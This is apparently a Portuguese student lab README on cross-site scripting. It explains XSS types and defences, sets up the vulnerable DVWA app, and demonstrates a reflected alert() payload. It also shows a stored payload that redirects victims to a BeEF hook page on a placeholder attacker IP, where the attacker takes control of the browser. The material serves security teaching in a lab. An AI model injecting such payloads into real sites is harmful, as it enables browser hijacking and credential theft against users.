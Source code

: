# PRÁTICA XSS

## Dupla:
Anderson Felipe Costa

Antonio Thiago Costa

## O que é XSS?

O ataque de Cross-site scripting (XSS) consiste em uma vulnerabilidade causada pela falha nas validações dos parâmetros de entrada do usuário e resposta do servidor na aplicação web. Este ataque permite que um código HTML seja inserido no navegador do usuário alvo.

Tecnicamente, este problema ocorre quando um parâmetro de entrada do usuário é apresentado integralmente pelo navegador, como no caso de um código javascript que passa a ser interpretado como parte da aplicação legítima e com acesso a todas as entidades do documento (DOM). Na prática, o responsável pelo ataque executa instruções no navegador da vítima usando um aplicativo web vulnerável, modificando estruturas do documento HTML.
Algumas vezes o atacante não tem como alvo diretamente sua vítima,  pelo contrario ele explora uma vulnerabilidade em um site que o alvo pode visitar com o objetivo de entregar o JavaScript malicioso para ele. No navegador do alvo, o JavaScript malicioso parece ser como parte integrante do site, o que torna o ataque efetivo e quase imperceptível para a vítima.

Podemos considerar um JavaScript como sendo malicioso quando ele consegue acessar informações confidenciais dos usuários, como os cookies ou quando são enviadas requisições HTTP contendo scripts maliciosos que podem usar o XMLHttpRequest. Claro que estes são apenas alguns exemplos, mesmo porque os ataques de XSS permitem uma série de combinações no ataque.

Um bom exemplo é uma aplicação vuneravel é o fórum, em que o usuário tenha permissão para incluir mensagens de sua própria autoria para que os outros usuários possam ler. Se este aplicativo não filtrar corretamente os códigos HTML, um usuário mal intencionado pode injetar instruções para leitura de informações específicas do usuário legítimo, tais como códigos de sessão, e até mesmo executar tarefas específicas como enviar mensagens de maneira arbitrária para o fórum.

## Tipos de XSS

Existem três tipos mais conhecidos são eles:

* XSS Stored que consiste em um código malicioso que pode ser permanentemente armazenado no servidor web/aplicação, como em um banco de dados, fórum, campo de comentários etc. O usuário torna-se vítima ao acessar a área afetada pelo armazenamento do código mal intencionado.Esse tipo de XSS são geralmente mais significativos do que outros, uma vez que um usuário mal intencionado pode potencialmente atingir um grande número usuários apenas com uma ação específica e facilitar o processo de engenharia social. Em alguns casos, o navegador afetado pode até mesmo se comportar como se estivesse infectado por um worm, replicando cópias para cada usuário que execute o código mal intencionado.

* XSS Reflected script é ativado por meio de um link, que envia uma solicitação para um site com uma vulnerabilidade que permite a execução de scripts mal-intencionados. A vulnerabilidade geralmente é resultado de solicitações recebidas sem criptografia, o que permite a manipulação das funções de um aplicativo da Web e a ativação de scripts mal-intencionados. Para distribuir o link malicioso, um criminoso normalmente o incorporam em um site de e-mail ou de terceiros (por exemplo, em uma seção de comentários ou em mídias sociais). O link é incorporado dentro de um texto âncora que faz com que o usuário clique nele, o que inicia a solicitação XSS para um site explorado, refletindo o ataque de volta ao usuário. Ao contrário de um ataque armazenado, em que o autor deve localizar um site que permita a injeção permanente de scripts mal-intencionados, os ataques refletidos exigem apenas que o script mal-intencionado seja incorporado a um link. Sabendo disto, para que o ataque seja bem-sucedido, o usuário precisa clicar no link infectado. Ataques refletidos são mais comuns. Os ataques refletidos não têm o mesmo alcance que os ataques XSS Stored. XSS reflected podem ser evitados por usuários vigilantes. Como pode se ver esse tipo de ataque é executado por meio de engenharia social, convencendo o usuário alvo que a requisição a ser realizada é legítima. As consequencias variam de acordo com a natureza da vulnerabilidade, podendo variar do sequestro de sessões válidas no sistema, roubo de credenciais ou realização de atividades ilicitas em nome do usuário afetado.

* Dom Based XSS: É o tipo mais difícil de ser encontrado entre os três, porque depende de uma das vulnerabilidades em algum dos componentes da página, sendo que o script faz alterações no HTML atual da página através da manipulação do DOM (Document Object Model). Recentemente, o tema TwentyFifteen, que é padrão nas instalações do WordPress, foi alvo desse tipo de vulnerabilidade e deixou milhões de sites vulneráveis.

## Problemas para impedir ataques XSS

Uma das principais dificuldades na prevenção de vulnerabilidades XSS é a codificação adequada de caracteres. Em alguns casos, o servidor da Web ou o aplicativo da Web podem não filtrar algumas codificações de caracteres, portanto, por exemplo, o aplicativo da Web pode filtrar "<script>", mas pode não filtrar% 3cscript% 3e que simplesmente inclui outra codificação de tags.

## Métodos de prevenção

* Encoding e Validation: A função do Encoding é filtrar os dados que o usuário irá inserir para que o navegador o interprete apenas como dado e não como código. Um exemplo clássico é a conversão em HTML, como "<" e ">" em "&lt;" e "&gt;". O objetivo do Validation é filtrar todas as entradas do usuário que podem ser maliciosas para a sua aplicação, e essa será a sua primeira linha de defesa contra os ataques XSS. Essa validação funciona melhor através da prevenção sobre os dados que possuem limites de valores. Um exemplo é uma variável “Int” (inteiro), que não precisa conter códigos HTML.

* Use bibliotecas Anti-XSS: As bibliotecas Anti-XSS fornecem um conjunto de funções que irá facilitar o filtro dos dados para bloquear os 
ataques XSS. algumas delas:

1. Microsoft AntiXSS Library .NET 
2. HTML Purifier  PHP
3. Java Encoder Java

* Utilize o Content Security Policy (CSP): O Content Security Policy é um cabeçalho HTTP que fornece uma whitelist de recursos confiáveis no qual o navegador poderá confiar. Um recurso pode ser um script, CSS, imagem ou outro tipo de arquivo que poderá ser indicado. Isso significa que mesmo se um atacante conseguir injetar um código XSS no seu site, o CSP poderá impedir a sua execução. O único problema atual do CSP é que a interpretação é diferente em alguns navegadores e por isso você terá que fazer um tratamento de qual Header enviar. Usando a flag HttpOnly: O HttpOnly é uma flag adicional que pode ser incluída junto com a opção Set-Cookie. Quando o HttpOnly é usado, o JavaScript não será capaz de ler esse cookie protegido se acontecer a exploração do XSS do lado do cliente. Caso o navegador suporte essa opção, mesmo que a falha de XSS exista e o atacante consiga fazer uma vítima acessar o link que pode explorar a falha, o navegador não irá fornecer os dados do cookie para o atacante. X-XSS-Protection no Header: Este cabeçalho pode ser utilizado para configurar uma proteção no navegador contra ataques XSS Reflected. Atualmente, apenas os navegadores Internet Explorer, Google Chrome e Safari (WebKit) o suportam.

## INSTALAÇÃO DO DVWA E APRESENTAÇÃO DO BEFF

### Servidor APACHE2 - Ubuntu Server
### Atacante - Kali Linux

1. Instalação normal do Ubuntu server, até chegar a Seleção de pacotes, nela selecione LAMP server e OpenSSh server.
![imagem01](imagens/01.png)
####Obs: Caso não for utilizar o Ubuntu Server basta executar

```
sudo apt install lamp-server^ 

sudo apt install openssh-server
```

2. Após o processo de instalação do S.O e o LAMP, exeute o comando abaixo, para remover os pacotes php:

```
sudo apt-get purge `dpkg -l | grep php | awk '{print $2}' | tr "\n" " "`
```
![imagem03](imagens/03.png)

3. Em Seguida, inserir um repositorio de onde sera baixado o php necessario para DVWA e um update:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt update
```
![imagem03](imagens/04.png)

4. Neste passo instale o php5.6 e os modulos necessarios além do unzip com:
```
sudo apt install php5.6 php5.6-gd php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml unzip
```
![imagem07](imagens/07.png)

5. Inicie o apache:
```
sudo systemctl start apache2
```

6. Ative o módulo do php5.6 no apache:
```
sudo a2enmod php5.6
```
![imagem09](imagens/09.png)

7. Entre na pasta /var/www onde será baixado o pacote DVWA e execute o wget e o unzip:
```
cd /var/www
sudo wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
sudo unzip master.zip -d html
```

8. Agora entre na pasta html e mude o nome da pasta descompactada para facilitar o acesso:
```
cd html
sudo mv DVWA-master dvwa
```

9. Agora altere a linha com allow_url_include de off para on:
```
sudo vim /etc/php/5.6/apache2/php.ini
```
![imagem17](imagens/17.png)

10. Agora copie o modelo do arquivo config do DVWA executando:
```
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php
```

11. Altere o arquivo criado:
```
sudo vim dvwa/config/config.inc.php
```
![imagem22](imagens/22.png)
Obs: Neste arquivo deixe o usuario como root e em db_password insira a senha configurada na instalação, caso não tenha senha, deixe somente '';.

12. Altere também o arquivo xss_s, para poder inserir mais caracteres no campo de comentarios do XSS Stored, necessario para poder escrever o script completo.
```
sudo vim dvwa/vulnerabilities/xss_s/index.php
```

Busque por mtxMessage
![imagem23](imagens/22.1.png)

Altere o proximo numero após maxlenght
![imagem24](imagens/22.2.png)

![imagem25](imagens/22.3.png)

13. Reinicie o apache
```
sudo systemctl restart apache2
```

14. Após toda a configuração, vá ao navegador e insira a URL IP-do-servidor/dvwa. Neste ponto a pagina é aberta, após checar todos os pontos necessarios clique em Create / Reset Database:

![imagem26](imagens/23.png)

Tela de login do DVWA - Usuario: admin e senha:password
![imagem27](imagens/24.png)

Após inserir usuario e senha temos a seguinte tela:

![imagem28](imagens/25.png)
Nela temos todas as opções de teste de ataque, nesta pagina clique em DVWA Security para alterar a dificuldade do ataque. Vai estar em impossible, altere para Low e clique em Submit.

## Ataques

### XSS Reflected
Clique em XSS(Reflected) e no campo de texto insira.
```
<script type="text/javascript"> alert('texto'); </script>
```
![imagem29](imagens/26.png)
Devera aparecer esta tela de pop-up com o texto inserido.

### XSS Stored

Para este ataque utilizaremos o Beef xss framework, uma ferramenta de pentest do Kali Linux
![imagem30](imagens/27.png)

1. Abra o beef

Está é a tela inicial do beef, o usuario padrão é beef e a senha igual
![imagem31](imagens/28.png)

2. No DVWA, insira no campo mensagem este código:
```
<script> document.location="http://Seu-IP/demos/butcher/index.html" </script>
```
Este link direciona para uma pagina de teste de ataque XSS pronta. No campo nome coloque qualquer coisa

![imagem32](imagens/29.png)

3. Voltando ao beff, no lado esquerdo da página surge o IP do browser infectado pela pagina.
![imagem33](imagens/30.png)

4. Clicando no IP da vitima recebemos varias opções, podendo o atacante com este acesso fazer outros ataques ao usuario infectado atraves do navegador.

![imagem34](imagens/31.png)

5. Agora é so testar as opções e se divertir!


## Prática Proposta

Instalar o DVWA e realizar um XSS Reflected, fazendo surgir um pop-up, apresentando o nome do aluno, printar esta tela e postar no Git Hub.


## Referências

https://imasters.com.br/devsecops/5-formas-para-prevenir-os-ataques-xss

https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

https://www.incapsula.com/web-application-security/reflected-xss-attacks.html

http://www.redesegura.com.br/2012/01/saiba-mais-sobre-o-cross-site-scripting-xss/

https://www.youtube.com/watch?v=OVLz6RgOjIY

https://medium.com/@GustavoOliveira/xss-cross-site-scripting-ae5fe11b0f2e

https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected

https://github.com/ethicalhack3r/DVWA
